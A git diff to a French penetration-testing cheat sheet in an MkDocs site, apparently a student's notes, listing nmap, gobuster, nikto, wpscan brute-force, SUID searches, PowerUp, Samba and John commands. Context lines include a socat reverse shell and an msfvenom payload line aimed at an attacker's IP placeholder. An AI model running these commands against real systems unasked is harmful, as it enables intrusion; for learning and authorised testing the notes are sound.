

Before and after one commit to NathanEtinzon/CEFIM, an MkDocs documentation site: the page built from docs/PENTEST_CHEAT_SHEET.md, in a window 1280 px wide and 1400 px high, scrolled down 3897 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4527 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Maj PenTest Cheat Sheet

```diff
--- a/docs/PENTEST_CHEAT_SHEET.md
+++ b/docs/PENTEST_CHEAT_SHEET.md
@@ -2,29 +2,32 @@
 
 ## NMAP
 
+> **Scan port**
+`nmap -T4 -sC -sV -Pn <IP>`
 
-`nmap -T4 -sC -sV -Pn <IP>`
+> **Scan Samba**
+`nmap -p <PORT> --script=smb-enum-shares.nse,smb-enum-users.nse <IP>`
 
 ## GOBUSTER
 
->- Enumeration dossier
+> **Enumeration dossier**
 `gobuster dir -u <URL> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100`
 
 ## NIKTO
 
->- Header
+> **Header**
 `nikto -h <IP> -p <PORT>`
 
->- Plugin
+> **Plugin**
 `nikto -h <IP> -Plugin <PLUGIN>`
 
->- Verbose
+> **Verbose**
 `nikto -h <IP> -Display <1|2|E>`
 >> 1 : Redirections
 >> 2 : Cookies
 >> E : Erreurs
 
->- Vulnérabilités
+> **Vulnérabilités**
 `nikto -h <IP> -Tuning <0|2|3|4|8|9>`
 >> 0 : Téléversement de fichier
 >> 2 : Défauts de configuration / Fichiers par défaut
@@ -33,21 +36,21 @@
 >> 8 : Execution de commande
 >> 9 : Injection SQL
 
->- Output
+> **Output**
 `nikto -h <IP> -o <FICHIER>`
 
 ## WPSCAN
 
->- Thème
+> **Thème**
 `wpscan --url <URL> --enumerate t`
 
->- Plugins
+> **Plugins**
 `wpscan --url <URL> --enumerate p`
 
->- Utilisateur
+> **Utilisateur**
 `wpscan --url <URL> --enumerate u`
 
->- Brute-force
+> **Brute-force**
 `wpscan --url <URL> –-passwords <WORDLIST> –-usernames <UTILISATEUR>`
 
 ## Vulnérabilités d'upload
@@ -120,38 +123,58 @@
 ### Socat Extended Reverse Shell
 `socat TCP:<IP ATTAQUANT>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
 
-
 ### Merterpreter
 `msfvenom --list payload`
 `msfvenom -p <PAYLOAD> -f <FORMAT> -o <OUTPUT> LHOST=<IP ATTAQUANT> LPORT=<PORT>`
 
 ## Escalade de privilèges sous Linux
 
->- Énumération Linux
+> **Énumération**
 [LinEnum](https://github.com/rebootuser/LinEnum)
 [LinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md)
 
->- [GTFOBins](https://gtfobins.github.io)
+> **[GTFOBins](https://gtfobins.github.io)**
 >>- Séquences d'échappement Shell
 >>- Variable d'environnement *sudo*
 >>- Crontab en général
->>- SUID/GUID
+>>- SUID/SGID
+>>>- `find / -perm -2000 -type f 2>/dev/null`
+>>>- `find / -perm -4000 -type f 2>/dev/null`
+>>>- `find / -perm -6000 -type f 2>/dev/null`
 
->- Exploit de service
+> **Exploit de service**
 [Exploit Database](https://www.exploit-db.com/)
 
->- /etc/shadow en lecture/écriture
+> /etc/shadow en lecture/écriture
 
->- /etc/passwd en lecture/écriture
+> /etc/passwd en lecture/écriture
 
->- Clés SSH
+> **Clés SSH**
 
->- Mot de passe dans les fichiers de configurations
+> **Mot de passe dans les fichiers de configurations**
 
->- NFS
+> **NFS**
 
->- Exploit Kernel (à éviter car peut déstabiliter le système)
+> **Exploit Kernel** (à éviter car peut déstabiliter le système)
+
+## Escalade de privilèges sous Windows
+
+> **Énumération**
+>>[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
+>>[PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)
+>>> `. .\PowerUp.ps1`
+>>> `Invoke-AllChecks`
+
 
 ## JohnTheRipper
 
+**Crackage de hash**
 `john --wordlist=<WORDLIST> <FICHIER>`
+
+## Samba
+
+> **Accès**
+`smbclient //<IP>/<PARTAGE>`
+
+> **Téléchargement**
+`smbget -R smb://<IP>/<PARTAGE>`
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -52,4 +52,4 @@
   - AD-CS | Certificat Apache: AD-CS_Certificat_Apache.md
   - Rudder: ITIL_Etinzon_Nathan.md
   - Gestion de projet | Définition : Gestion_de_projet_Definition.md
-  - PenTest Cheat Sheet : PENTEST_CHEAT_SHEET.md
+  - PenTest Cheat Sheet : PenTest_Cheat_Sheet.md
```
